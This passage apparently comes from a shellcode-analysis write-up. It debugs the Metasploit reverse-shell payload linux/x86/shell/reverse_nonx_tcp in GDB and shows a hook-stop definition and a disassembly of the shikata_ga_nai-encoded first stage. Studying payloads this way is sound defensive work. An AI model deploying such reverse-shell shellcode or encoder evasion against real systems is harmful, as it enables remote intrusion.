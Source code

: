 ``Graphical view for payload linux/x86/shell/reverse_nonx_tcp``

### Debugging linux/x86/shell/reverse_nonx_tcp

#### Stage 1
To disassemble the desired part of *shellcode.c* for stage 1, launching the GDB debugger using *sudo* command and issuing *break *&code*. Then it is possible to run the file and get the disassembled code.

As a basis, the following hook-stop could be defined:

````
define hook-stop
print /x $eax
print /x $ebx
print /x $ecx
print /x $edx
print /x $esi
x/4w $esp
disassemble $eip,+20
end
````
``Hook-stop defined for debugging linux/x86/shell/reverse_nonx_tcp``

---
##### Decoding shikata_ga_nai
As the code was encoded using *shikata_ga_nai* encoder, the shellcode will decodify the instructions. Although on this examination the decoding process will be studied, a more detailed study can be found [here](https://cs.gmu.edu/~xwangc/Publications/ISC2014-AttackCodeExtraction-final.pdf).

````
   0x0804a040 <+0>:	mov    esi,0x92926455
   0x0804a045 <+5>:	fld    st(2)
   0x0804a047 <+7>:	fnstenv [esp-0xc]
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	sub    ecx,ecx
   0x0804a04e <+14>:	mov    cl,0xd
   0x0804a050 <+16>:	sub    eax,0xfffffffc
   0x0804a053 <+19>:	xor    DWORD PTR [eax+0x10],esi
   0x0804a056 <+22>:	add    esi,DWORD PTR [eax+0x10]
   0x0804a059 <+25>:	mov    bh,0x91
   0x0804a05b <+27>:	mov    ds:0x97196449,eax
   0x0804a060 <+32>:	pop    es
   0x0804a061 <+33>:	mov    bh,dh
   0x0804a063 <+35>:	jno    0x8049fe5 <_DYNAMIC+189>
   0x0804a065 <+37>:	add    eax,0x82b0b3e6
   0x0804a06a <+42>:	mov    dl,0x23
   0x0804a06c <+44>:	mov    ebx,0xddbb46ac
   0x0804a071 <+49>:	les    esp,FWORD PTR [ecx-0x34]
   0x0804a074 <+52>:	inc    edi
   0x0804a075 <+53>:	inc    edi
   0x0804a076 <+54>:	out    0x33,eax
   0x0804a078 <+56>:	in     eax,dx
   0x0804a079 <+57>:	add    DWORD PTR [edi-0x39655c1d],ebp
   0x0804a07f <+63>:	in     eax,0x7
   0x0804a081 <+65>:	jmp    0x4f235edf
   0x0804a086 <+70>:	push   ebp
   0x0804a087 <+71>:	icebp  
   0x0804a088 <+72>:	and    ch,BYTE PTR [edx-0x1a]
   0x0804a08b <+75>:	push   cs
   0x0804a08c <+76>:	lds    eax,FWORD PTR [eax]
````
``shellcode at the beginning of the analysis``
